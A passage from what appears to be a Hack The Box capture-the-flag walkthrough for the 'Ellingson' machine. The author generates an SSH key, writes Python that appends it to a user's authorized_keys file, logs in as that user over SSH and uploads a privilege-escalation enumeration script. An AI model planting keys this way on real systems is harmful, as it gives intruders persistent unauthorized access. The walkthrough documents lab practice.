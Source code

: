 Firstly i create an ssh key (i don't want to put my own key in the box!!) :
``` 
$ ssh-keygen
.....
$ cat id_rsa.pub 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDEWNYCu7gGkGOs0XzaF4sYyjdOGBsbSk4FZCelytufrizb48izgtyL+5RCASLNWWIvPKXNoqms8JKOMPyw8gaufqF4L+mxVsLgkE39hPpch2pY3/Ps+i5mmjmEZ80MOX1hzjfKAB0vS5N7YCh09rMWxWMyzMPOfQsqB8ETLQDtvMKoURkxp3NA9fQTE74Kcrk08xP2CjBop1T/NvFasGeX21r8X8RnI+N3cnML0H5jwlfNbfnM0E0FMgX1mw3iFTfMkUGz0y8tIBeHhcaviwxsZWLeQ0R7xT5uh0VFNsgr/Fj4LRfH8HnSbAJNQOAmahzdmZIYEs5ca1PSSPq7Vtgj
```

Now, tried to write the public key created before into "authorized_keys" like :
```
f = open('/home/hal/.ssh/authorized_keys', 'a')
data= '\n\nssh-rsa
AAAAB3NzaC1yc2EAAAADAQABAAABAQDEWNYCu7gGkGOs0XzaF4sYyjdOGBsbSk4FZCelytufrizb48izgtyL+5RCASLNWWIvPKXNoqms8JKOMPyw8gaufqF4L+mxVsLgkE39hPpch2pY3/Ps+i5mmjmEZ80MOX1hzjfKAB0vS5N7YCh09rMWxWMyzMPOfQsqB8ETLQDtvMKoURkxp3NA9fQTE74Kcrk08xP2CjBop1T/NvFasGeX21r8X8RnI+N3cnML0H5jwlfNbfnM0E0FMgX1mw3iFTfMkUGz0y8tIBeHhcaviwxsZWLeQ0R7xT5uh0VFNsgr/Fj4LRfH8HnSbAJNQOAmahzdmZIYEs5ca1PSSPq7Vtgj'
f.write(data)
f.close()
```

And finnaly use ssh to authenticate as hal like :
```
ssh -v -i ./id_rsa hal@10.10.10.139
```
![hal_shell](https://github.com/roughiz/Ellingson-walktrough/blob/master/hal_shell.png)

## Privilege Escalation

I didn't find the user.txt in the "hal" home directory, so i have to find how to authenticate as an other user to have my first flag, let's enumerate the box with my prefer linux priv escalation python [script](https://github.com/sleventyeleven/linuxprivchecker).

First i transfer the script with scp like :
```
$ scp -i ./ssh/id_rsa privsecchecker.py   hal@10.10.10.139:/tmp/ 
```
#### Setuid binary 
